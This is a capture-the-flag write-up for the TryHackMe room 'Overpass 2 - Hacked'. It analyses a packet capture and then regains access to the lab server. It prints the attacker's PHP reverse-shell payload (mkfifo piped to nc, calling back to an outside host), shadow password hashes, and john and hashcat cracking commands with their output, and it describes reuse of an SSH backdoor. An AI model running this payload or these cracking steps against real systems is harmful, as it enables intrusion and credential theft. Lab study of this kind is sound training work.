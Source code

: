 ```yaml
---

title: Box - Overpass 2 - Hacked
published: true
---
```


Overpass has been hacked! Can you analyse the attacker's actions and hack back in?

[https://tryhackme.com/room/overpass2hacked](https://tryhackme.com/room/overpass2hacked)

![0xskar](/assets/wireshark.jpg)

* * *

## Task 1 - Forensics - Analyse the PCAP 

- Can you work out how the attacker got in, and hack your way back into Overpass' production server?

- md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

##   Answer the questions below

**What was the URL of the page they used to upload a reverse shell?**

- checking out wireshark we can see a lot of access to /developments/ and an /upload.php which was used to upload payload.php to /developments/upload/payload.php

**What payload did the attacker use to gain access?**

- inspect the 1026 char POST /development/upload.php

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

**What password did the attacker use to privesc?**

- traverse through wireshark, **follow the TCP Stream**
- james:whenevernoteartinstant

**How did the attacker establish persistence?**

- line 120
- [https://github.com/NinjaJc01/ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor)

**Using the fasttrack wordlist, how many of the system passwords were crackable?**

- find in wireshark (i didnt note the line :sleeping:)

```shell
/etc/shadow
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```

- crack the hashes

```shell
┌──(0xskar㉿cocokali)-[~/thm/rooms/overpass2hacked]
└─$ john --format=sha512crypt --wordlist=/usr/share/wordlists/fasttrack.txt etc.shadow.hashes 
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secret12         (bee)     
abcd123          (szymex)     
1qaz2wsx         (muirland)     
secuirty3        (paradox)     
4g 0:00:00:00 DONE (2022-06-23 23:00) 6.349g/s 352.3p/s 1761c/s 1761C/s Spring2017..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

* * *

## Task 2 - Research - Analyse the code 

##   Answer the questions below

**What's the default hash for the backdoor?**

- check https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go
- ``bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3``

**What's the hardcoded salt for the backdoor?**

- 1c362db832f3f864c8c2fe05f2002a05

**What was the hash that the attacker used? - go back to the PCAP for this!**

- Follow TCP Stream - Line 3479
- 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

**Crack the hash using rockyou and a cracking tool of your choice. What's the password?**

- ``hash-identifier`` tells us SHA-512 and the main.go tells us sha512 pass:salt
- ``hashcat -h`` tells us to use 1710 sha512($pass.$salt)
- build command ``hashcat -a 0 -m 1710 attacker.salt.hash /usr/share/seclists/Password/rockyou.txt``
- ``november16``

* * *

## Task 3 Attack - Get back in! 

Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There's flags on the box that Overpass can't afford to lose by formatting the server!

##   Answer the questions below

**The attacker defaced the website. What message did they leave as a heading?**

1. Visit Website
2. H4ck3d by CooctusClan

**Using the information you've found previously, hack your way back in!**

1. SSH backdoor is @ port 2222
2. trying to use SSH returns ``no matching host key type found. Their offer: ssh-rsa``
3. googlfu the answer and adding ``HostKeyAlgorithms +ssh-rsa,ssh-dss`` to ``/etc/ssh_config`` lets us connect with james' password. Now for privesc!

```shell
Your identification has been saved in id_rsa.
Your public key has been saved in id_rsa.pub.
The key fingerprint is:
SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58 james@overpass-production
The key's randomart image is:
+---[RSA 2048]----+
|        .. .     |
|       .  +      |
|      o   .=.    |
|     . o  o+.    |
|      + S +.     |
|     =.o %.      |
|    ..*.% =.     |
|    .+.X+*.+     |
|   .oo=++=Eo.    |
+----[SHA256]-----+
```

**What's the user flag?**

- easy just check home

**What's the root flag?**

- nice of them to leave suid :)

* * * 